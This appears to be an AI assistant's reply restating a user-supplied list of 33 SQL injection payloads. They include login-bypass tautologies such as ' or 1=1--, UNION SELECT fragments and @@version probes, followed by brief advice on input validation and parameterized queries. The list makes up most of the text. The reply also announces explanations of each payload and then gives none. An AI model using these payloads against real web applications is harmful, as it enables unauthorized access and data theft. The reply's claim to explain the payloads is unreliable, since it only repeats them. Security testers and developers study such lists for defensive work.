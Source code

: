 It looks like you've provided a list of common SQL injection payloads. These payloads are typically used to test the security of web applications by attempting to exploit vulnerabilities in the way they handle user input. SQL injection occurs when an attacker is able to inject malicious SQL code into a query, manipulating its behavior.

Here's a brief explanation of some of the payloads you've listed:

1. `" or "a"="a`
2. `" or "x"="x`
3. `" or 0=0 #`
4. `" or 0=0 --`
5. `" or 1=1 or ""="`
6. `" or 1=1--`
7. `"' or 1 --'"`
8. `") or ("a"="a`
9. `'`
10. `' (select top 1`
11. `' --`
12. `' ;`
13. `' UNION ALL SELECT`
14. `' UNION SELECT`
15. `' or ''='`
16. `' or '1'='1'--`
17. `' or 'x'='x`
18. `' or (EXISTS)`
19. `' or 0=0 #`
20. `' or 0=0 --`
21. `' or 1 in (@@version)--`
22. `' or 1=1 or ''='`
23. `' or 1=1--`
24. `' or a=a--`
25. `' or uid like '%`
26. `' or uname like '%`
27. `' or user like '%`
28. `' or userid like '%`
29. `' or username like '%`
30. `0 or 1=1`
31. `1 or 1 in (@@version)--`
32. `1 or 1=1--`
33. `or 1=1--`

These payloads are often used in the context of input fields where user input is directly incorporated into SQL queries. Web developers need to be cautious and use proper input validation and parameterized queries to prevent SQL injection attacks. Testing web applications with these payloads (in a controlled environment) helps identify and fix potential vulnerabilities.
